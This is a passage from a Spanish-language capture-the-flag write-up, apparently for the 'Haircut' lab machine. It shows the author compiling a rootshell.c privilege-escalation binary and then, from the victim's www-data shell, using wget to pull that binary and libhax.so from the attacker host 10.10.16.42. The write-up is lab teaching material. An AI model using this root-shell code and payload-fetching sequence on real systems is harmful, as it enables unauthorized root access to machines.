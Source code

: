 ```bash
41154.sh  libhax.c  libhax.so
```
Creo rootshell.c y lo compilo.
```bash
$ nano rootshell.c
$ cat rootshell.c 
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
$ gcc -o rootshell rootshell.c -static
rootshell.c: In function ‘main’:
rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    3 |     setuid(0);
      |     ^~~~~~
rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    4 |     setgid(0);
      |     ^~~~~~
rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
    5 |     seteuid(0);
      |     ^~~~~~~
rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
    6 |     setegid(0);
      |     ^~~~~~~
rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
    7 |     execvp("/bin/sh", NULL, NULL);
      |     ^~~~~~
rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]
$ ls
41154.sh  libhax.c  libhax.so  rootshell  rootshell.c
```
Tenido estos 2 binarios compilados los descargué en la máquina víctima en la ruta /tmp.
```bash
www-data@haircut:/tmp$ cd /tmp
www-data@haircut:/tmp$ wget http://10.10.16.42/libhax.so
--2023-05-14 19:29:51--  http://10.10.16.42/libhax.so
Connecting to 10.10.16.42:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15528 (15K) [application/octet-stream]
Saving to: 'libhax.so'

libhax.so                                                   100%[=========================================================================================================================================>]  15.16K  42.2KB/s    in 0.4s    

2023-05-14 19:29:52 (42.2 KB/s) - 'libhax.so' saved [15528/15528]

www-data@haircut:/tmp$ wget http://10.10.16.42/rootshell
--2023-05-14 19:30:02--  http://10.10.16.42/rootshell
Connecting to 10.10.16.42:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 766976 (749K) [application/octet-stream]
Saving to: 'rootshell'

```